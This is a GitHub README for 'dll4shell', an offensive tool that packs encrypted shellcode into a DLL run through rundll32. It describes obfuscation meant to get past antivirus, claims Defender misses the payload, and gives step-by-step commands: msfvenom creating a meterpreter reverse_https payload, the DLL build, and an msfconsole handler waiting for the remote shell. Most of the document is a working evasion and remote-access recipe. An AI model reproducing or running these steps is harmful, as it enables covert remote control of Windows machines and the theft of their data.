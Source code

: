 ### C++ shellcode launcher

Dll generator designed to run the shellcode via rundll32. Based on the "charlotte" tool and research mentioned in external references. Current features include:

* Using classic chain VirtualAlloc - CreateThread to execute the code in rundll32 process.
* Shellcode XOR and Cezar / Shift encryption.
* Simple python script to do the magic.
* Random names of functions and params for obfuscation.

As of now, the dll created with meterpreter code is detected by 5 / 65 vendors. Although VirusTotal suggests Defender detects the payload, on the real machines it does not.

![](dll4shell.png)

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

### External references

[charlotte](https://github.com/9emin1/charlotte)
[Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)